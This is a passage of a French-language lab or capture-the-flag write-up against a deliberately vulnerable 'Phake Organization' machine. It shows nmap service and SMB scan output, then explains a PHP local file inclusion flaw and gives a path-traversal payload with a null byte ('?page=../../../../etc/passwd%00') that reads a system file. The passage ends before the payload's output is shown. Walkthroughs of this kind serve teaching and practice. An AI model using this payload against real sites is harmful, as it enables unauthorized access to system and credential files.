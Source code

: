 ```plain
1 service unrecognized despite returning data.
SF-Port143-TCP:V=6.46%I=7%D=7/14%Time=53C3C68E%P=x86_64-suse-linux-gnu%r(N
SF:ULL,93,"\*\x20OK\x20\[CAPABILITY\x20IMAP4REV1\x20LITERAL\+\x20SASL-IR\x
--- snip ---
SF:20STARTTLS\]\x20\[192\.168\.1\.69\]\x20IMAP4rev1\x202006k\.396\x20at\x2
SF:0Mon,\x2014\x20Jul\x202014\x2004:03:26\x20-0400\x20\(EDT\)\r\n");
MAC Address: 00:0C:29:44:6B:32 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
Service Info: Hosts: localhost.localdomain, 192.168.1.69; OS: Unix

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a-6.fc8)
|   Computer name: localhost
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: localhost.localdomain
|_  System time: 2014-07-14T04:05:03-04:00
| smb-security-mode: 
|   Account that was used for smb scripts: guest
|   User-level authentication
|   SMB Security: Challenge/response passwords supported
|_  Message signing disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol
```

Il y a différents services qui peuvent nous intéresser mais je me suis tourné directement vers le site web qui est celui de la *Phake Organization*.  

Sur ce site on trouve :  

* des urls qui prennent un paramêtre page
* un blog *NanoCMS* sous le path */~andy/*
* ce qui semble être un *Drupal* sous */events/*
* Un formulaire d'inscription à une maling-list sous */list/*
* une page avec un formulaire de contact (*?page=contact*)

Attaque
-------

La faille est d'une banalité navrante : si on demande ?page=yop on obtient des erreurs PHP bien trop bavardes.  

```plain
Warning: include_once(inc/yop.php) [function.include-once]: failed to open stream: No such file or directory in /var/www/html/index.php on line 6
```

L'inclusion est donc relative et ajoute une extension. Il est alors possible de remonter l'arborescence et de placer un null byte pour casser l'ajout de l'extension. Ainsi avec *?page=../../../../../../../../etc/passwd%00* on obtient :  

